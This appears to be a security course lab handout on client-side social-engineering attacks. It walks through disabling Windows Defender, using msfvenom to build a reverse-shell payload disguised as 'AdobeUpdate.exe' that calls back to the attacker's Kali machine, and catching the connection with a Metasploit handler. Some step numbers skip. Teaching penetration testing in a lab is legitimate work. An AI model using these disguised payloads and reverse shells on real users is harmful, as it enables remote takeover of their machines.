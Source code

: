 ```yaml
---

title: Lab &ndash; Social Engineering
number: 11
description: "Only amateurs attack machines; professionals target people."
---
```


Today, social engineering attacks represent a major primary vector for hackers. As Bruce Schneier said, “Only amateurs attack machines; professionals target people.”[1](https://www.schneier.com/crypto-gram-0010.html)  
Further, client-side software represents a much larger attack surface than server-side software. For these reason, many of the major breaches you read about in the news began with a client-side attack. 

In this lab you’ll use two leading tools to perform client-side attacks: msfvenom and the Social Engineering Toolkit (SET). All of these attacks involve creating a malicious payload
that you trick the user into executing. The Metasploit-Framework is used to create the payloads, and you are on your own to trick the user.

# Part 1. MSFVenom with fake AdobeUpdate.exe

In this section, you’ll use msfvenom to perform a client-side attack. Msfvenom can be used to turn Metasploit payloads into stand-alone executables that a user can be tricked into running. Your goal is to (1) create a malicious executable file, (2) host it on a web server, and (3) exploit a Windows 10 VM.

1.	Open your Kali Linux and Windows 10 VMs. Make sure that both are on the same subnet and can ping each other.
2.	On Windows, make sure Windows Defender is turned off. Run:
	* click the windows button on the bottom left of the desktop and searching for 'Defender' and choose 'Windows Defender Security Center'
	* click 'Virus & Threat protection settings'
	* move the 'Real-time protection' slider to the left.

4.	In Kali, type `msfvenom --help-formats` to see a list of output formats that msfvenom supports. We’ll use the `-f exe` option to create a Windows executable.
5.	In Kali, run the following command, all on one line:

        msfvenom -p windows/shell/reverse_tcp LHOST=[your Kali IP] -f exe > /tmp/AdobeUpdate.exe

    Where:

    * `-p`		Selects the payload
    * `-f`		Selects the file type of the output executable
    * `LHOST`   The IP of your Kali Linux VM
    * `LPORT` 	The listening port on your Kali Linux VM

6.	Verify that the output file is about 73802 bytes in size. If not, you may need to check that you entered the command correctly and run it again.
10.	Run a msf handler to listen for the meterpreter reverse connection.
    11. On Kali, open a new terminal window (besides the one that is running the Python webserver), and enter `msfconsole`.
    11.	Enter `use exploit/multi/handler`. Once you’ve switched to this exploit module, type `show info`. Note that this module “is a stub that provides all of the features of the Metasploit payload system to exploits that have been launched outside of the framework.” A stub adds additional functionality to other exploits.
    12.	Enter `set PAYLOAD windows/shell/reverse_tcp`.
    13.	Enter `set LHOST [IP of Kali VM]`.
    15.	Enter `exploit -j`. 
    